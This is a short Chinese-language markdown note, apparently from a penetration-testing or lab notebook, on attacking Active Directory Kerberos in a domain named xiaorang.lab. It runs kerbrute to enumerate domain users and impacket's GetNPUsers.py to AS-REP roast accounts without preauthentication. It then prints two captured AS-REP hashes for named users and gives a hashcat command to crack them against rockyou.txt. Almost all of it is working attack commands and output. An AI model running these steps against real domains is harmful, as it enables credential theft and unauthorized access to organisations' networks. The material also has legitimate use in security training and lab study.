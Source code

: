 # 域用户枚举\_爆破 Kerberos

[爆破 Kerberos](http://www.fzwjscj.xyz/index.php/archives/51/)

- 域用户枚举

```sh
# 域用户枚举  https://github.com/ropnop/kerbrute
./kerbrute_linux_amd64 userenum --dc 172.22.6.12 -d xiaorang.lab user_name.txt -t 10
```

- AS-REPRoasting
  对于域用户，如果设置了选项 Do not require Kerberos preauthentication(不要求 Kerberos 预身份认证)，此时向域控制器的 88 端口发送 AS-REQ 请求，对收到的 AS-REP 内容重新组合，能够拼接成"Kerberos 5 AS-REP etype 23"(18200)的格式，接下来可以使用 hashcat 或是 john 对其破解，最终获得该用户的明文口令

- 查找未设置预认证的账号

```sh
proxychains python3 GetNPUsers.py -dc-ip 172.22.6.12 -usersfile user.txt xiaorang.lab/
```

得到两个账号 wenshao@xiaorang.lab 、zhangxin@xiaorang.lab

```sh
$krb5asrep$23$wenshao@xiaorang.lab@XIAORANG.LAB:b6c410706b5e96c693b2fc61ee1064c3$2dc9fbee784e7997333f30c6bc4298ab5752ba94be7022e807af418c11359fd92597e253752f4e61d2d18a83f19b5c9df4761e485853a3d879bcf7a270d6f846683b811a80dda3809528190d7f058a24996aff13094ff9b32c0e2698f6d639b4d237a06d13c309ce7ab428656b79e582609240b01fb5cd47c91573f80f846dc483a113a86977486cecce78c03860050a81ee19921d3500f36ff39fa77edd9d5614cf4b9087d3e42caef68313d1bb0c4f6bc5392943557b584521b305f61e418eb0f6eb3bf339404892da55134cb4bf828ac318fe00d68d1778b7c82caf03b65f1938e54ed3fa51b63cdb2994
$krb5asrep$23$zhangxin@xiaorang.lab@XIAORANG.LAB:971802b84ce99050ad3c5f49d11fd0b7$6c1be075c3cf2a7695529de2ebbf39c5ec7e5326c9d891dac2107b239892f76befe52c860e4e1e2ff6537a5765a6bcb6b8baca792d60765ac0bbe1b3c5e59f3ec51b7426636a437d5df12130eb68d9b17ef431455415671c7331a17ce823e28cc411677bed341d3fceefc3451b8b232ea6039661625a5c793e30c4d149b2ed9d2926e9d825b3828744ebce69e47746994c9a749ceeb76c560a1840bc74d2b9f301bb5b870c680591516354460dab2238e7827900ed80320dd3a6f46874b1bc8a3a68aea7bd11d0683ec94103f59d9511691090928e98d0d8978f511e71fd9db0067fa0d450c120f3726918d7

# 使用hashcat解密
hashcat -m 18200 --force -a 0 '$krb5asrep$23$wenshao@xiaorang.lab@XIAORANG.LAB:b6c410706b5e96c693b2fc61ee1064c3$2dc9fbee784e7997333f30c6bc4298ab5752ba94be7022e807af418c11359fd92597e253752f4e61d2d18a83f19b5c9df4761e485853a3d879bcf7a270d6f846683b811a80dda3809528190d7f058a24996aff13094ff9b32c0e2698f6d639b4d237a06d13c309ce7ab428656b79e582609240b01fb5cd47c91573f80f846dc483a113a86977486cecce78c03860050a81ee19921d3500f36ff39fa77edd9d5614cf4b9087d3e42caef68313d1bb0c4f6bc5392943557b584521b305f61e418eb0f6eb3bf339404892da55134cb4bf828ac318fe00d68d1778b7c82caf03b65f1938e54ed3fa51b63cdb2994' rockyou.txt
```
